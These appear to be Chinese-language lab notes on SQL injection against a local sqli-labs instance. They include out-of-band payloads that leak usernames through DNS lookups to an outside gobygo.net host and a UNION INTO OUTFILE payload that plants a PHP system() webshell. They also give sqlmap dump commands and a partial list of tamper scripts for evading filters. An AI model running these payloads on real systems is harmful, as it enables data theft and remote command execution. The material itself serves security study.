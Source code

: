#### uagent头注入

通过连接增加插入语句的方式

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)两种方式

#### post注入

随便输入，再根据错误提示输入账号。这里就不赘述了

#### 带外注入

http://127.0.0.1/sqli/Less-1/?id=1' and if((select load_file(concat('\\\\', (select username from users where id=1),'.28dabfb57fd8fc80.gobygo.net\\abc'))),1,1)-- -

![image-20240222202617216](https://raw.githubusercontent.com/20231201/123/main/image-20240222202617216.png)

http://127.0.0.1/sqli/Less-1/?id=1' and if((select load_file(concat('\\\\', (select substr((select group_concat(username) from users),1,5)),'.340b7010f18a2f20.gobygo.net\\abc'))),1,1)-- -

#### webshell

1. 在phpstudy_pro\Extensions\MySQL5.7.26\my.ini文件中添加语句`secure_file_priv=""`

2. 在网页中执行语句：`http://192.168.2.60/sqli/Less-1/?id=-1' union  select 1,@@datadir,"<?php @system($_GET[a]);  ?>" into outfile  "C:\\phpstudy_pro\\WWW\\phpinfo.php" -- -`

3. 这时可以看到www文件下出现了phpinfo.php

   ![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)phpinfo.php

4. 通过在网页输入该文件地址加（?a=指令）传参，可控制原机执行指令

#### sqlmap

在kali中可以直接执行sqlmap

下载地址：https://github.com/sqlmapproject/sqlmap/archive/refs/tags/1.7.zip

查询可操作指令：`python3 sqlmap.py -h`

查询数据指令：`python3 sqlmap.py  -u "http://192.168.2.60/sqli/Less-1/?id=1" --dbs`（查询数据库）

`python3 sqlmap.py  -u "http://192.168.2.60/sqli/Less-1/?id=1"  --batch -D security --tables`（指定查询数据库表）

`python3 sqlmap.py  -u "http://192.168.2.60/sqli/Less-1/?id=1"  --batch -D security -T users -C "id,username" --dump`（指定查询id，username）

SQLMap是一款SQL注入神器，可以通过tamper对注入payload 进行编码和变形，以达到绕过某些限制的 目的。但是有些时候，SQLMap自带的Tamper脚本并不是特别好用，需要根据实际情况定制Tamper脚本。

序号	脚本名称	注释
1	0x2char	将每个编码后的字符转换为等价表达
2	apostrophemask	单引号替换为Utf8字符
3	apostrophenullencode	替换双引号为%00%27
4	appendnullbyte	有效代码后添加%00
5	base64encode	使用base64编码
6	between	比较符替换为between
7	bluecoat	空格替换为随机空白字符，等号替换为like
8	chardoubleencode	双url编码
9	charencode	将url编码
10	charunicodeencode	使用unicode编码
11	charunicodeescape	以指定的payload反向编码未编码的字符
12	commalesslimit	改变limit语句的写法
13	commalessmid	改变mid语句的写法
14	commentbeforeparentheses	在括号前加内联注释
15	concat2concatws	替换CONCAT为CONCAT_WS
16	equaltolike	等号替换为like
17	escapequotes	双引号替换为\